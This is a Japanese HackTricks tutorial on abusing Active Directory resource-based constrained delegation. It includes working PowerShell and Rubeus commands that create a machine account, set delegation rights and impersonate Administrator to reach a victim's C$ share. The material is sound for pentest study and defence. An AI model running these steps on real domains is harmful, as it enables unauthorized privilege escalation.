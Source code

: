 # リソースベースの制約付き委任

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>でAWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝する**か**HackTricksをPDFでダウンロードする**場合は[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を入手する
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
- 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)を**フォロー**する。
- **ハッキングトリックを共有するには** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出してください。

</details>

## リソースベースの制約付き委任の基礎

これは基本的な[制約付き委任](constrained-delegation.md)に似ていますが、**オブジェクトに対して任意のユーザーを偽装する権限を与える**代わりに、リソースベースの制約付き委任は**オブジェクトに対して任意のユーザーを偽装できるユーザーを設定**します。

この場合、制約付きオブジェクトには、**msDS-AllowedToActOnBehalfOfOtherIdentity**という属性があり、それに対して他のユーザーを偽装できるユーザーの名前が設定されます。

この制約付き委任と他の委任との重要な違いは、**マシンアカウントに対する書き込み権限を持つ任意のユーザー**が_**msDS-AllowedToActOnBehalfOfOtherIdentity**_を設定できることです（他の委任形式では、ドメイン管理者権限が必要でした）。

### 新しい概念

制約付き委任では、ユーザーの_userAccountControl_値の中にある**`TrustedToAuthForDelegation`**フラグが**S4U2Self**を実行するために必要であると言われていました。しかし、それは完全な真実ではありません。\
実際には、その値がなくても、**サービス**（SPNを持っている）であれば、**任意のユーザーに対してS4U2Self**を実行できますが、**`TrustedToAuthForDelegation`**がある場合、返されるTGSは**Forwardable**になり、そのフラグがない場合、返されるTGSは**Forwardable**になりません。

ただし、**S4U2Proxy**で使用される**TGS**が**Forwardable**でない場合、**基本的な制約付き委任**を悪用しようとしても**機能しません**。ただし、**リソースベースの制約付き委任**を悪用しようとする場合は機能します（これは脆弱性ではなく、明らかに機能です）。

### 攻撃構造

> **コンピュータ**アカウントに**書き込みに相当する権限**がある場合、そのマシンで**特権アクセス**を取得できます。

攻撃者がすでに**被害者コンピュータ**に対して**書き込みに相当する権限**を持っていると仮定します。

1. 攻撃者は、**SPN**を持つアカウントを**侵害**するか（"Service A"）、**作成**します。注意すべきは、**特別な特権を持たない**_管理者ユーザー_でも最大10の**コンピュータオブジェクト（MachineAccountQuota）**を**作成**し、それに**SPN**を設定できることです。したがって、攻撃者は単にコンピュータオブジェクトを作成し、SPNを設定できます。
2. 攻撃者は、被害者コンピュータ（ServiceB）に対する**リソースベースの制約付き委任を許可**するために、被害者コンピュータ（ServiceB）上での**WRITE権限を悪用**します。
3. 攻撃者はRubeusを使用して、特権アクセスを持つユーザーに対して、Service AからService Bへの**完全なS4U攻撃**（S4U2SelfおよびS4U2Proxy）を実行します。
1. S4U2Self（侵害された/作成されたSPNアカウントから）：**管理者から私へのTGS**を要求します（Forwardableではない）。
2. S4U2Proxy：前述の**ForwardableでないTGS**を使用して、**管理者から被害者ホスト**への**TGS**を要求します。
3. ForwardableでないTGSを使用していても、リソースベースの制約付き委任を悪用しているため、機能します。
4. 攻撃者は**チケットを渡す**ことができ、ユーザーを**偽装**して**被害者ServiceBにアクセス**できます。

ドメインの**_MachineAccountQuota_**を確認するには、次のコマンドを使用できます：
```powershell
Get-DomainObject -Identity "dc=domain,dc=local" -Domain domain.local | select MachineAccountQuota
```
## 攻撃

### コンピュータオブジェクトの作成

ドメイン内でコンピュータオブジェクトを作成することができます。[powermad](https://github.com/Kevin-Robertson/Powermad)**:**
```powershell
import-module powermad
New-MachineAccount -MachineAccount SERVICEA -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose

# Check if created
Get-DomainComputer SERVICEA
```
### R**esource-based Constrained Delegationの設定**

**activedirectory PowerShellモジュールを使用する**
```powershell
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount SERVICEA$ #Assing delegation privileges
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount #Check that it worked
```
**PowerViewを使用する**
```powershell
$ComputerSid = Get-DomainComputer FAKECOMPUTER -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ComputerSid)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer $targetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

#Check that it worked
Get-DomainComputer $targetComputer -Properties 'msds-allowedtoactonbehalfofotheridentity'

msds-allowedtoactonbehalfofotheridentity
----------------------------------------
{1, 0, 4, 128...}
```
### 完全なS4U攻撃の実行

まず最初に、パスワード`123456`を持つ新しいコンピュータオブジェクトを作成したので、そのパスワードのハッシュが必要です：
```bash
.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local
```
これにより、そのアカウントのRC4ハッシュとAESハッシュが表示されます。\
攻撃を実行できるようになりました：
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<aes256 hash> /aes128:<aes128 hash> /rc4:<rc4 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /domain:domain.local /ptt
```
Rubeusの`/altservice`パラメータを使用して、一度のリクエストで複数のチケットを生成できます。
```bash
rubeus.exe s4u /user:FAKECOMPUTER$ /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/victim.domain.local /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt
```
{% hint style="danger" %}
ユーザーには "**委任できない**" という属性があります。ユーザーがこの属性をTrueにしている場合、彼をなりすますことはできません。このプロパティはBloodHound内で確認できます。
{% endhint %}

### アクセス

最後のコマンドラインは、**完全なS4U攻撃を実行し、Administratorから被害者ホストへのTGSをメモリに注入**します。\
この例では、Administratorから**CIFS**サービスのTGSが要求されたため、**C$**にアクセスできるようになります。
```bash
ls \\victim.domain.local\C$
```
### 異なるサービスチケットの悪用

[**ここで利用可能なサービスチケットについて学ぶ**](silver-ticket.md#available-services)。

## Kerberos エラー

* **`KDC_ERR_ETYPE_NOTSUPP`**: これは、Kerberos が DES または RC4 を使用しないように構成されており、RC4 ハッシュのみを提供していることを意味します。少なくとも AES256 ハッシュを Rubeus に提供してください（または単に rc4、aes128、aes256 ハッシュを提供してください）。例: `[Rubeus.Program]::MainString("s4u /user:FAKECOMPUTER /aes256:CC648CF0F809EE1AA25C52E963AC0487E87AC32B1F71ACC5304C73BF566268DA /aes128:5FC3D06ED6E8EA2C9BB9CC301EA37AD4 /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:Administrator /msdsspn:CIFS/M3DC.M3C.LOCAL /ptt".split())`
* **`KRB_AP_ERR_SKEW`**: これは、現在のコンピュータの時刻が DC の時刻と異なり、Kerberos が正常に機能していないことを意味します。
* **`preauth_failed`**: これは、指定されたユーザー名 + ハッシュがログインに使用されていないことを意味します。ハッシュを生成する際にユーザー名に "$" を入れ忘れている可能性があります（`.\Rubeus.exe hash /password:123456 /user:FAKECOMPUTER$ /domain:domain.local`）
* **`KDC_ERR_BADOPTION`**: これは次のことを意味する可能性があります:
  * 擬似化しようとしているユーザーが望ましいサービスにアクセスできない（擬似化できないか、権限が不十分なため）
  * 要求されたサービスが存在しない（WinRM のチケットを要求しているが、WinRM が実行されていない場合）
  * 作成された fakecomputer が脆弱なサーバー上で権限を失い、それを戻す必要がある

## 参考文献

* [https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation/)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution#modifying-target-computers-ad-object)
* [https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/](https://stealthbits.com/blog/resource-based-constrained-delegation-abuse/)
